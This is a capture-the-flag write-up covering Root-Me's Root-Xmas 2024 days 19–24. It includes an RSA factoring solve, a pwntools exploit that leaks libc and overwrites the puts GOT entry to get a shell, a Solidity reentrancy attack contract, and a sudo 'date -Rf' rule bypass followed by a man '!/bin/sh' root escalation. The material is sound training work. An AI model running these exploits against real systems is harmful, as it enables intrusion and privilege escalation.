

# Root-Xmas Challenge 2024 - Write-Ups for Days 19 to 24

These challenges were part of the Root-Xmas Challenge which was
organized by [Root-Me](https://root-me.org). This event was an Advent Calendar
made with CTF challenges.

## Day 19 - Rebel Santa Alliance (Crypto)


**Description:** After years of battle, Santa finally lost the war
against The Grinch who took power over Christmas. To fight for a
better future, Santa started to build the resistance to reclaim its
rightful reign. This movement has been named the Rebel Santa Alliance.

For this challenge we have:
- a Python script `rebel-santa-alliance.py`

```python
from Crypto.Util.number import bytes_to_long

sk = RSA.generate(2048)
pk = sk.public_key()
rebel = pk.n
santa = pow(sk.p + sk.q, 25_12, sk.n) # Y
alliance = pow(sk.p + 2024,  sk.q, sk.n) # X
grinch = bytes_to_long(PKCS1_OAEP.new(pk).encrypt(open("flag.txt", "rb").read()))
print(f"{rebel = }")
print(f"{santa = }")
print(f"{alliance = }")
print(f"{grinch = }")
```

- its output `output.txt`
```
rebel = 22565061734039416113482972045260378850335551437603658289704615027418557202724145368752149375889961980363950180328323175210320614855936633182393255865179856287531160520701504181536636178888957690581313854928560767072864352042737573507134186874192330515294832153222689620292170062536844410158394875422189502091059641377172877646733866246591028663640957757623024460547759402035334150076953624006427372367403531317508296240139348595881946971512709010668970161839227064298658561166783993816926121542224966430871213596301099976336198714307311340588307183266135926332579316881966662145397817192575093538782843784869276100533
santa = 7090676761511038537715990241548422453589203615488971276028090010135172374067879024595027390319557301451711645742582972722821701885251846126401984831564226357658717867308193240479414897592113603389326639780104216744439110171644024870374198268635821406653829289038223890558052776266036276837616987636724890369390862354786266974335834195770641383651623579785433573634779559259801143085171276694299511739790904917106980811500310945911314872523635880520036346563681629465732398370718884575152165241470126313266744867672885335455602309001507861735607115050144930850784907731581914537046453363905996837218231392462387930807
alliance = 4807856659746554540384761225066384015772406312309222087365335807512750906135069862937039445867248288889534863419734669057747347873310770686781920717735265966670386330747307885825069770587158745071342289187203571110391360979885681860651287497925857531184647628597729278701941784086778427361417975825146507365759546940436668188428639773713612411058202635094262874088878972789112883390157572057747869114692970492381330563011664859153989944153981298671522781443901759988719136517303438758819537082141804649484207969208736143196893611193421172099870279407909171591480711301772653211746249092574185769806854290727386897332
grinch = 21347444708084802799009803643009154957516780623513439256397111284232540925976405404037717619209767862025457480966156406137212998283220183850004479260766295026179409197591604629092400433020507437961259179520449648954561486537590101708148916291332356063463410603926027330689376982238081346262884223521443089140193435193866121534545452893346753443625552713799639857846515709632076996793452083702019956813802268746647146317605419578838908535661351996182059305808616421037741561956252825591468392522918218655115102457839934797969736587813630818348913788139083225532326860894187123104070953292506518972382789549134889771498
```

The underlying problem is the following: given $n=pq$, $X = (p+q)^2512
\mod n$ and $Y = (p+2024)^q \mod n$, retrieve $p$ and $q$ to factor
$n$.

First of all, we can remark that since $q$ is prime, by Fermat's
little theorem we have $Y = (p+2024)^q \equiv (p+2024) [q]$. Thus,
there exists $k\in \mathbb{N}$ such that $Y = p + 2024 + kq$ (and
$Y-2024 = p + kq$).

Moreover, $X = (p+q)^2512 \equiv p^2512 + q^2512 [n]$ because $pq = n
\equiv 0 [n]$.

Similarly, $(Y-2024)^2512 \equiv p^2512 + k^2512q^2512 [n]$.

As a result, 
$$(Y-2024)^2512 - X \equiv (k^2512-1)q^2512 [n]$$

and finally there exists $k'$ such that

$$(Y-2024)^2512 - X = (k^2512-1)q^2512 + k'n$$
$$(Y-2024)^2512 - X = ((k^2512-1)q^2511 + k'p)q$$

We can conclude that $q$ divides $(Y-2024)^2512 - X$. Under the (safe)
assumption that $p$ does not divide $(k^2512-1)$, $q$ should be the
greatest common divisor (GCD) of $n$ and $(Y-2024)^2512 - X$.

In conclusion, we just have to compute the GCD of $n$ and
$(Y-2024)^2512 - X$ (or `rebel` and `pow(alliance-2024, 2512, rebel) - santa`
in the challenge) to recover $q$ and factor $n$. At this point, the decryption of the flag with RSA is straightforward.

```python
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP
from Crypto.Util.number import bytes_to_long,long_to_bytes

rebel = 22565061734039416113482972045260378850335551437603658289704615027418557202724145368752149375889961980363950180328323175210320614855936633182393255865179856287531160520701504181536636178888957690581313854928560767072864352042737573507134186874192330515294832153222689620292170062536844410158394875422189502091059641377172877646733866246591028663640957757623024460547759402035334150076953624006427372367403531317508296240139348595881946971512709010668970161839227064298658561166783993816926121542224966430871213596301099976336198714307311340588307183266135926332579316881966662145397817192575093538782843784869276100533
santa = 7090676761511038537715990241548422453589203615488971276028090010135172374067879024595027390319557301451711645742582972722821701885251846126401984831564226357658717867308193240479414897592113603389326639780104216744439110171644024870374198268635821406653829289038223890558052776266036276837616987636724890369390862354786266974335834195770641383651623579785433573634779559259801143085171276694299511739790904917106980811500310945911314872523635880520036346563681629465732398370718884575152165241470126313266744867672885335455602309001507861735607115050144930850784907731581914537046453363905996837218231392462387930807
alliance = 4807856659746554540384761225066384015772406312309222087365335807512750906135069862937039445867248288889534863419734669057747347873310770686781920717735265966670386330747307885825069770587158745071342289187203571110391360979885681860651287497925857531184647628597729278701941784086778427361417975825146507365759546940436668188428639773713612411058202635094262874088878972789112883390157572057747869114692970492381330563011664859153989944153981298671522781443901759988719136517303438758819537082141804649484207969208736143196893611193421172099870279407909171591480711301772653211746249092574185769806854290727386897332
grinch = 21347444708084802799009803643009154957516780623513439256397111284232540925976405404037717619209767862025457480966156406137212998283220183850004479260766295026179409197591604629092400433020507437961259179520449648954561486537590101708148916291332356063463410603926027330689376982238081346262884223521443089140193435193866121534545452893346753443625552713799639857846515709632076996793452083702019956813802268746647146317605419578838908535661351996182059305808616421037741561956252825591468392522918218655115102457839934797969736587813630818348913788139083225532326860894187123104070953292506518972382789549134889771498

q = gcd(pow(alliance-2024, 2512, rebel) - santa, rebel)

p = rebel // q

assert (p*q == rebel)

phi = (p-1) * (q-1)
d = pow(2 ** 16 + 1, -1, phi)

m = bytes(PKCS1_OAEP.new(RSA.construct((int(rebel), int(2 ** 16 + 1), int(d)))).decrypt(long_to_bytes(grinch)))

print("FLAG: %s" % m.decode())
```

```
$ sage solve.sage
FLAG: RM{63e90e80f5fd4d6797d146ce86608c9b6a937929a6f0498a389abe7bfc0dc185}
```

**FLAG:** `RM{63e90e80f5fd4d6797d146ce86608c9b6a937929a6f0498a389abe7bfc0dc185}`

## Day 20 - Santa's db (Pwn)


**Description:** Even though you've been naughty all advent, you might
have a last opportunity to get a gift. We found Santa's DB. Bring us
the flag and grab yourself a gift along the way.

For this challenge we are given the
[main.c](./src/20-santas_db/santas_db/main.c) source file of the
binary, along with a `Dockerfile` and a `docker-compose.yml`. We can
retrieve the compiled binary and the appropriate libc/linker from the
Docker container.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <time.h>

const char* banner = 
"\n\t  ________  ________   _______   \n"
"\t /\"       )|\"      \"\\ |   _  \"\\  \n"
"\t(:   \\___/ (.  ___  :)(. |_)  :) \n"
"\t \\___  \\   |: \\   ) |||:     \\/  \n"
"\t  __/  \\\\  (| (___\\ ||(|  _  \\\\  \n"
"\t /\" \\   :) |:       :)|: |_)  :) \n"
"\t(_______/  (________/ (_______/  \n\n";


#define DB_SIZE 6
char gift_db[DB_SIZE][0x20] = {
    "Gravis' Pwn Chall",
    "PS12",
    "ARM64 MultiThreading Flag",
    "Kiss from Nish",
    "RTX 5090",
    "1 Win on Valo (for Mika)"
}; 

unsigned long santas_pin = 0;
char is_santa = 0;
char one_gift_allowed = 1;


char login_error[] = "You are not Santa ! >:c \n";

void show_gift();
void change_gift();
void auth();

int main(int argc, char **argv) {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    char choice[0x10];
    int atoiyed;
    puts(banner);
    printf("Welcome to SDB, Santa's Database Manager !\n(also it spells Salle de Bain)\n");
    printf("Made with <3 by Gravis ^^\n");
    
    srand(time(NULL)^getpid());
    santas_pin = rand();

    while (1) {
        printf("\nChoose what you want to do !\n1: See what gift we have for Xmas\n2: Change a gift (requires to be Santa)\n3: Leave :(\n");
        printf("Your choice : ");
        fgets(choice, sizeof(choice), stdin);
        atoiyed = atoi(choice);
        if (atoiyed==1) {
            auth();
            show_gift();
        } 
        else if (atoiyed==2) {
            auth();
            change_gift();
        }   
        else if (atoiyed==3) {
            printf("Goodbye ! ;)");
            return 0;
        }
        else {
            printf("Unrocognized choice !");
        }
        sleep(1);
    }

    
    return 0;
}

void auth() {
    char login[0x10] = {0};
    char pass[0x10] = {0};

    printf("Lemme see those credentials");
    printf("Login : ");
    fgets(login, sizeof(login), stdin);
    printf("Password : ");
    fgets(pass, sizeof(pass), stdin);

    if (strcmp(login, "Santa")==0 && *(int*)pass==santas_pin) {
        printf("Welcome Santa ! :)");
        is_santa=1;
    } else {
        puts(login);
        puts(login_error);
    }  
}

void show_gift() {
    char choice[0xc] = {0};
    int n_gift; 
    if (!is_santa) {
        //before xmas, you get to see only one gift !
        if (!one_gift_allowed) {
            printf("You already saw it naughty !");
            return;
        }
        else {
            one_gift_allowed = 0;
        }
    }
    printf("Oh you're curious which gifts we're considering for Xmas ?");
    printf("Do you want to keep some xmas magic and see a random gift, or choose which one to see ?\nAnswer R for random or C to choose : ");
    fgets(choice, sizeof(choice), stdin);
    if (choice[0]=='R') {
        printf("Random one, nice choice !");
        n_gift = rand()%DB_SIZE;
    }
    else if (choice[0]=='C') {
        printf("Gift number : ");
        scanf("%d", &n_gift);
        getchar();
        if (n_gift<0 || n_gift>=DB_SIZE) {
            printf("This gift doesn't even exist, go to naughty list");
            return;
        } 
    }

    printf("Here's the %u%s gift : %s\n", n_gift, n_gift==1? "st": n_gift==2? "nd": n_gift==3? "rd": "th", gift_db[n_gift]);
}

void change_gift() {
    if (!is_santa) {
        printf("You are not Santa, you can't change a gift !!!");
    }
    int n_gift;
    printf("Tell me, which gift entry do you want to modify ? ");
    scanf("%d", &n_gift);
    getchar();

    printf("Go for it !");
    fgets(gift_db[n_gift], sizeof(gift_db[0]), stdin);
}
```

The binary is compiled with all protections enabled **except RELRO**.

```
$ checksec --file=main
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
No RELRO        Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   60 Symbols  No	0		2		main
```

The challenge basically offers two options:
- show a gift,
- change a gift.

```
$ nc challenges.xmas.root-me.org 10020

[...]

Choose what you want to do !
1: See what gift we have for Xmas
2: Change a gift (requires to be Santa)
3: Leave :(
Your choice :
```

When we choose one or another option, we are first asked to
authenticate ourselves.

```
Your choice : 1
Lemme see those credentialsLogin : spikeroot
Password : spikeroot
spikeroot

You are not Santa ! >:c
```

However, even if we are not authenticated, we are allowed to see one gift.
```c
void show_gift() {
    char choice[0xc] = {0};
    int n_gift; 
    if (!is_santa) {
        //before xmas, you get to see only one gift !
        if (!one_gift_allowed) {
            printf("You already saw it naughty !");
            return;
        }
        else {
            one_gift_allowed = 0;
        }
    }
	[...]
    printf("Here's the %u%s gift : %s\n", n_gift, n_gift==1? "st": n_gift==2? "nd": n_gift==3? "rd": "th", gift_db[n_gift]);
}
```

Moreover, due to an unintended vulnerability, we are able to change
gifts even if we are not Santa:

```c
void change_gift() {
    if (!is_santa) {
        printf("You are not Santa, you can't change a gift !!!");
    }
    [...]
}
```
(a return was missing inside the `if` body)

The main vulnerabilities is that the variable `n_gift` is not
initialized in `show_gift()`, and the case where the choice of the
user is neither `R` or `C` is not handled. Thus, if we are able to
control the initial value of `n_gift`, we can read out-of-bounds in
`gift_db`.

We are indeed able to control this value: it will be equal to some
bytes of the `login` and `pass` buffers in the previously executed
`auth()` function. When authenticating, we just have to fill these
buffers with the value we want to inject in `n_gift`

If `n_gift` is equal to `n`, the value at address `@gift_db + 0x20*n`
will be read. Luckily for us, `stdout` in `.bss` is at `@gift_db + 0x100`.
Thus we can get a libc leak by reading at `gift_db[8]`.


Finally, there are no bound checks in `change_gift`. We have as well
an out-of-bounds write primitive here.

Moreover the binary is compiled without RELRO, and the user's login is
printed with `puts` in the `auth` function. Hence we only have to
overwrite the GOT entry of `puts` with `@system` thanks to our libc
leak to gain remote code execution. `puts` is at `@gift_db - 0xb8`. To
overwrite it, we can write the address of `system` after a 8-byte
padding at `gift_db[-6]`.


Here is the main part of my [solve
script](./src/20-santas_db/santas_db/solve.py). Note that I had to
introduce sleeps to deal with buffering problems that I was too lazy
to investigate.

```python
def main():
    io = start()
    
	# libc leak (index 8)
    io.sendlineafter(b'Your choice : ', b'1')
    io.sendlineafter(b'Login : ', b'\x00'*3 + p32(8)*8)
    io.sendlineafter(b'Password : ', b'\x00'*3 + p32(8)*8)
    io.sendlineafter(b'choose : ', b'z')

    io.recvuntil(b'8th gift : ')
    leak_libc = u64(io.recv(6) + b'\x00\x00')
    success("Leaked stdout: %s" % hex(leak_libc))
    libc.address = leak_libc - libc.sym["_IO_2_1_stdout_"]
    success("Libc base: %s" % hex(libc.address))

    sleep(6)
    
	# overwrite GOT entry of puts (index -6)
    io.sendlineafter(b'Your choice : ', b'2')
    io.sendlineafter(b'Login : ', b'toto')
    io.sendlineafter(b'Password : ', b'toto')
    io.sendlineafter(b'modify ? ', b'-6')
    io.sendlineafter(b'Go for it !', b'A'*8 + p64(libc.sym["system"]))

    sleep(3)

	# get a shell
    io.sendlineafter(b'Your choice : ', b'1')
    io.sendlineafter(b'Login : ', b'/bin/sh')
    io.sendlineafter(b'Password : ', b'pouet')
    
    io.interactive()
```

```
$ python solve.py
[...]
[+] Opening connection to challenges.xmas.root-me.org on port 10020: Done
[+] Leaked stdout: 0x7fd1aa5c25c0
[+] Libc base: 0x7fd1aa3be000
[*] Switching to interactive mode
$ ls
flag.txt
main
main.c
$ cat flag.txt
RM{TacosTacosTacosTacos}
```

**FLAG:** `RM{TacosTacosTacosTacos}`

**Upsolve:** After I solved the challenge, the author told us that the
missing `return` in `change_gift` was unintended. Without this extra
"gift", the challenge would have been slightly more complicated (but
not that much). The only extra step would be to leak first Santa's PIN
using the OOB read in `show_gift`. We could then login as Santa to get
extra reads and pursue the exploit as presented in this writeup.

## Day 21 - Kekalor (Web3)


**Description:** Hot December, isn't it ?

For this challenge, we have two Solidity smart contracts:
- a NFT contract `KekalorNFT.sol` (below are the most important parts, the full source code is [here](./src/21-kekalor/KekalorNFT.sol))
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

contract KekalorNFT {
    string public name = "KekalorNFT";
    string public symbol = "KKNFT";

    address private kekalor;
    uint256 private _tokenId = 0;

    mapping(uint256 tokenId => address) private _owners;
    mapping(address owner => uint256) private _balances;
    mapping(uint256 tokenId => address) private _tokenApprovals;
    mapping(address owner => mapping(address operator => bool)) private _operatorApprovals;

    event Transfer(address indexed from, address indexed to, uint256 indexed tokenId);
    event Approval(address indexed owner, address indexed approved, uint256 indexed tokenId);
    event ApprovalForAll(address indexed owner, address indexed operator, bool approved);

    constructor(address kekalorAddress) {
        kekalor = kekalorAddress;
    }

    modifier onlyKekalor() {
        require(msg.sender == kekalor, "KekalorNFT: caller is not authorized");
        _;
    }

	[...]
	
    function transferFrom(address from, address to, uint256 tokenId) public {
        require(to != address(0), "KekalorNFT: invalid transfer receiver");
        address owner = ownerOf(tokenId);
        require(from == owner, "KekalorNFT: transfer caller is not the owner");
        require(msg.sender == owner || msg.sender == getApproved(tokenId) || isApprovedForAll(owner, msg.sender), "KekalorNFT: caller is not approved to transfer");

        _balances[from] -= 1;
        _balances[to] += 1;
        _owners[tokenId] = to;

        emit Transfer(from, to, tokenId);
    }

    function mint(address to) public onlyKekalor returns (uint256) {
        uint256 currentTokenId = _tokenId;
        _mint(to, currentTokenId);
        return currentTokenId;
    }

	[...]
	
    function _mint(address to, uint256 tokenId) internal {
        require(to != address(0), "KekalorNFT: invalid mint receiver");
        require(_owners[tokenId] == address(0), "KekalorNFT: token already minted");

        _balances[to] += 1;
        _owners[tokenId] = to;
        _tokenId += 1;

        //verify the receiver is a payable address
        to.call{value: 0}("");

        emit Transfer(address(0), to, tokenId);
    }

    [...]
}
```

- a main contract `challenge.sol`

```solidity
// SPDX-License-Identifier: MIT

/// Title: Kekalor
/// Author: K.L.M
/// Difficulty: Medium


pragma solidity ^0.8.19;

import './KekalorNFT.sol';

contract Challenge {
    bool public Solved = false;
    address public admin;
    KekalorNFT public kekalornft;

    uint256 public constant POINTS_NEEDED_FOR_TAKEOVER = 10;
    uint256 public constant MAX_POINTS = 11;
    uint256 public pointsclaimed = 0;
    mapping(string => mapping(string => bool)) private NameSurname;
    mapping(bytes32 => uint256) private points;
    mapping(address => bool) private claimed;


    constructor(){
        kekalornft = new KekalorNFT(address(this));
        admin = msg.sender;
    }


    function claimNFT(bytes32 identifier) public {
        require(points[identifier] >= POINTS_NEEDED_FOR_TAKEOVER, "Not enough points to claim NFT");
        require(claimed[msg.sender] == false, "You already claimed your NFT");

        kekalornft.mint(msg.sender);

        points[identifier] = 0;
        claimed[msg.sender] = true;
    }

    function getPoints(string memory name, string memory surname) public {
        require(pointsclaimed < MAX_POINTS, "All points have been claimed");
        bytes32 identifier = keccak256(abi.encodePacked(name, surname));
        require (!NameSurname[name][surname], "You already claimed your points");
        points[identifier] += 1;
        pointsclaimed += 1;
    }

    function solve() public {
        require(kekalornft.balanceOf(msg.sender)>=2, "You need at least 2 NFTs to solve this challenge");
        Solved = true;
    }

    function isSolved() public view returns(bool){
        return Solved;
    }
}
```

When we deploy the challenge, we are given:
- the address / private key of our wallet,
- the address of the `Challenge` contract,
- info to connect to the RPC chain.


The goal is to obtain 2 KekalorNFTs to solve the challenge.

It seems pretty hard, since:
- each account should never claim more than one point, and it takes 10
  to claim a NFT
- the `Challenge` contract only distributes 10 points, while it should
  theoretically take 20 points to mint two NFTs.

There is a first vulnerability in the `Challenge` contract. When the
user claims a point in `getPoints`, the check for the identifier is weak:
`NameSurname[name][surname]` is never set, thus a given user is not
limited to claim a single point.

But it does not suffices since we have to get two NFTs and the
contract does not distribute more than 10 points.

The second vulnerability comes from the `_mint` function of
`KekalorNFT`. At the line `to.call{value: 0}("");`, in theory to check
that the receiver address is payable, a call to the receiver address is made.

This exposes the contract to a *reentrancy attack*. Indeed, when the
function `claimNFT` is called, a NFT is minted before the sender's
points are reset. The balance of the sender has already been increased
when the call is made. The receiver can be a malicious contract with a
`fallback` function which re-executes the `claimNFT` function of the
`challenge` contract. Since its points have not been reset, a new NFT
will be minted!

To do in practice this attack, we can deploy the following attack
contract on the blockchain. First, the malicious contract claims 10
points, and calls claimNFT to trigger the reentrancy loop. To avoid
infinite reentrancy, I set a max number of iterations to 10 (we will
mint 10 NFT, should be sufficient). Finally, the contract calls the
function `solve` to solve the challenge.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import './challenge.sol';

contract Attack {
    Challenge public challenge;
    address public owner;
    uint256 public iterationCount = 0;
    uint256 public constant MAX_ITERATIONS = 10;  // Max iterations to avoid infinite reentrancy loop
    
    constructor(address challAddr) {
        challenge = Challenge(challAddr);
        owner = msg.sender;
    }

    fallback() external payable {
        // Reentrancy attack
        if (iterationCount < MAX_ITERATIONS) {
            iterationCount++;
            bytes32 identifier = keccak256(abi.encodePacked("attacker", "malicious"));
            challenge.claimNFT(identifier);
        }
    }

    receive() external payable {
        // Reentrancy attack
        if (iterationCount < MAX_ITERATIONS) {
            iterationCount++;
            bytes32 identifier = keccak256(abi.encodePacked("attacker", "malicious"));
            challenge.claimNFT(identifier);
        }
    }

    function attack() public {
        require(msg.sender == owner, "Only the owner can attack");
        
        bytes32 identifier = keccak256(abi.encodePacked("attacker", "malicious"));
        
        for (int i=0; i<10; i++) {
            challenge.getPoints("attacker", "malicious");
        }

        challenge.claimNFT(identifier);

        challenge.solve();
    }
}
```

To deploy the contract, I used Remix IDE with MetaMask provider. Our contract only takes as
parameter the address of the `Challenge` instance to attack.


After running the `attack()` function, the challenge should be solved. We can get the flag on the main page of the challenge.


**FLAG:** `RM{K3ck4k_1sn7_K3ck4k1ng}}` (sic)

## Day 22 - The date is near (Misc)



**Description:** The date is approaching ... Santa provides you with a server to connect to via SSH.

It seems he's left a flag in `/root/`. Will you be able to catch it?
The username is `sshuser` and the password is `password`.

In this challenge we have a SSH access to the remote machine.

```
$ ssh -p 37863 sshuser@dyn-01.xmas.root-me.org
sshuser@dyn-01.xmas.root-me.org's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$
```

The goal is to gain `root` privileges to read the flag.

The first reflex for such a challenge is to check sudoers permissions
with `sudo -l` (namely, what we have the right to do with `sudo` as `sshuser`)

```
sshuser@the-date-is-near:~$ sudo -l
Matching Defaults entries for sshuser on the-date-is-near:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty,
    !requiretty

User sshuser may run the following commands on the-date-is-near:
    (ALL) NOPASSWD: /bin/date *, !/bin/date *-f*, !/bin/date *--file*
    (ALL) NOPASSWD: /usr/bin/dev.sh
```

We have the right to use the `date` command without `-f`/`--file`
option and to run the script `/usr/bin/dev.sh`.

When we run `/usr/bin/dev.sh`, nothing happens and we cannot read it as `sshuser`.

```
sshuser@the-date-is-near:~$ ls -la /usr/bin/dev.sh
-rwx------ 1 root root 1286 Dec 22 10:18 /usr/bin/dev.sh
```

We guess we have to read it with the `date` command. But the
`-f`/`--file` option appears to be the only way to read a file with
the `date` command...

I was stuck at this point for several hours. Finally, the trick was to
use the `-f` option along with another option such as `-R` (the
command will contain then `-Rf`) to bypass the regexes in the sudoers
rule.

We can then read the contents of `/usr/bin/dev.sh`.

```
$ sudo date -Rf /usr/bin/dev.sh
date: invalid date '#!/bin/bash'
Wed, 25 Dec 2024 00:00:00 +0000
date: invalid date '# Check if the --debugmyscript argument is present'
date: invalid date 'if [[ "$1" != "--debugmyscript" ]]; then'
date: invalid date '    exit 0  # Exit silently if the --debugmyscript argument is not provided'
date: invalid date 'fi'
Wed, 25 Dec 2024 00:00:00 +0000
date: invalid date '# Remove --debugmyscript from the argument list'
date: invalid date 'shift'
Wed, 25 Dec 2024 00:00:00 +0000
date: invalid date 'echo "Welcome to the dev.sh script!"'
Wed, 25 Dec 2024 00:00:00 +0000
date: invalid date '# Function to display help'
date: invalid date 'function show_help {'
date: invalid date '    echo "Usage: $0 [options]"'
date: invalid date '    echo'
date: invalid date '    echo "Options:"'
date: invalid date '    echo "  -l            List all running processes."'
date: invalid date '    echo "  -d            Show available disk space."'
date: invalid date '    echo "  -m            Show the manual for the printf command."'
date: invalid date '    echo "  -h            Show this help message."'
date: invalid date '}'
Wed, 25 Dec 2024 00:00:00 +0000
date: invalid date '# Check if no arguments are provided after --debugmyscript'
date: invalid date 'if [ $# -eq 0 ]; then'
date: invalid date '    echo "Error: No arguments provided."'
date: invalid date '    show_help'
date: invalid date '    exit 1'
date: invalid date 'fi'
Wed, 25 Dec 2024 00:00:00 +0000
date: invalid date '# Process arguments'
date: invalid date 'while getopts "ldmh" opt; do'
date: invalid date '    case $opt in'
date: invalid date '        l)'
date: invalid date '            echo "Listing running processes:"'
date: invalid date '            ps aux'
date: invalid date '            ;;'
date: invalid date '        d)'
date: invalid date '            echo "Displaying available disk space:"'
date: invalid date '            df -h'
date: invalid date '            ;;'
date: invalid date '        m)'
date: invalid date '            echo "Displaying the manual for printf:"'
date: invalid date '            man printf'
date: invalid date '            ;;'
date: invalid date '        h)'
date: invalid date '            show_help'
date: invalid date '            ;;'
date: invalid date '        *)'
date: invalid date '            echo "Invalid option."'
date: invalid date '            show_help'
date: invalid date '            exit 1'
date: invalid date '            ;;'
date: invalid date '    esac'
date: invalid date 'done'
```

To use the script, we have to pass it the option
`--debugmyscript`. The `-m` extra option enters the manual for
`printf`. I knew that it was possible to get a shell from `man` ; and
[GTFObins](https://gtfobins.github.io/gtfobins/man/) gave me the
confirmation: we have to enter the command `!/bin/sh`.

```
sudo /usr/bin/dev.sh --debugmyscript -m
Welcome to the dev.sh script!
Displaying the manual for printf:
man: can't set the locale; make sure $LC_* and $LANG are correct
PRINTF(1)                                User Commands                                PRINTF(1)

NAME
       printf - format and print data

SYNOPSIS
       printf FORMAT [ARGUMENT]...
       printf OPTION

DESCRIPTION
       Print ARGUMENT(s) according to FORMAT, or execute according to OPTION:

       --help display this help and exit

       --version
              output version information and exit

       FORMAT controls the output as in C printf.  Interpreted sequences are:

       \"     double quote

       \\     backslash

       \a     alert (BEL)

!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
``` 

We're root! And as a side note we have the flag :D

```
# ls /root
flag-1a0a6a36ca0a3953b997ddaeb722cb31e9e421b038f6a67ef55593f21dcf92b1.txt
# cat /root/flag-1a0a6a36ca0a3953b997ddaeb722cb31e9e421b038f6a67ef55593f21dcf92b1.txt
RM{S4NTA_IS_N0T_4DMIN_SYS}
```

**FLAG:** `RM{S4NTA_IS_N0T_4DMIN_SYS}`


## Day 23 - Gift Control Interface (Pwn)

Arguably the most difficult, and my favorite challenge of the
event. Write-up coming soon...

## Bonus - Day 24 - Root Xmas' Quiz (Quiz)


**Description:** All good things must come to an end. But we've made sure that this last day will be like the magic of Christmas - unforgettable.

Get a perfect score in Santa's quiz or sit on a precious flag...

Happy holidays from the whole Root-Me team ❤️!

This particular challenge was dedicated to the
[Root-Me](https://root-me.org) folklore and history. 

We had to answer 30 questions correctly to get the flag. In case of
failure, the questions where we gave wrong answers were given at the
end. When the challenge was released there were unintended solutions
(nikost, if you read me) but they were quickly patched.


After passing the quiz a bunch of times, I succeeded and got the flag.


**FLAG:** `RM{YoU_ArE_The_QUiZ_MaSTeR_MERRYXMAS<3}`

**Bonus:** As often, I complained a bit too much about the supremacy
of Web-ish challenges in this event, and the lack of Reverse
challenges. I well deserved this dedicated question from the staff :p


Only the true ones will understand that even the right answer is not
totally accurate...

# A word of conclusion

I would like to deeply thank the Root-Me staff for offering us such a
great event. The challenges were great (I even liked the Web ones) and
very diversified. I learnt a lot during this December month.

Hoping for another edition next year... :-)

And Merry Christmas to those who celebrate Christmas.
